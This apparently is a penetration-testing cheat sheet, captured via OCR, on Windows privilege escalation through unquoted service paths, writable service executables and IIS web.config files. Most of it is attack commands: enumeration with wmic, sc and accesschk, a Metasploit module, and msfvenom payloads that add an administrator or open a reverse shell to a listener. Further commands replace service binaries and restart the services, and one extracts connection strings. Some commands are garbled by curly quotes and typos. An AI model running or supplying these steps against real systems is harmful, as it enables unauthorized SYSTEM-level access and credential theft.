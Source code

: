 Developers must ensure the that paths containing spaces are enclosed in quotation marks otherwise the path is interpretered by the search algorithm. Enumerate either with:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i “auto” |findstr /i /v “c:\windows\\” |findstr /i /v “””
```
[[Meterpreter-Commands]]
```msfconsole
use exploit/windows/local/trusted_service_path
```
[[PowerSploit-Cheatsheet]]
```powershell
sc qc <unquotedsvc> # Query a service that has BINARY_PATH_NAME that is UNQUOTED AND CONTAINS SPACES
icacls <.exe>
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" # sysinternals
```

```bash
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=4444 -f exe-service -o svc-exe.exe
```

```batch
# File transfer
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
# or
sc stop unquotedsvc
sc start unquotedsvc
```
[Pentestlab](https://pentestlab.blog/2017/03/09/unquoted-service-path/)

## Insecure service executables

If service's executable DACL is well configured and service binary path is correctly quoted - should DACL allow modification of the configuration of a service then reconfigure it!

```batch
sc qc filepermsvc # Find a service that runs with SYSTEM privileges
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe" # sysinternals - check writability
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y # replace the filepermservice.exe
# (Re)start service
net start filepermsvc 
# or 
sc stop filepermsvc
sc start filepermsvc
```

## IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. `web.config` store the configurations found either:
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
It can contain passwords.
```powershell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

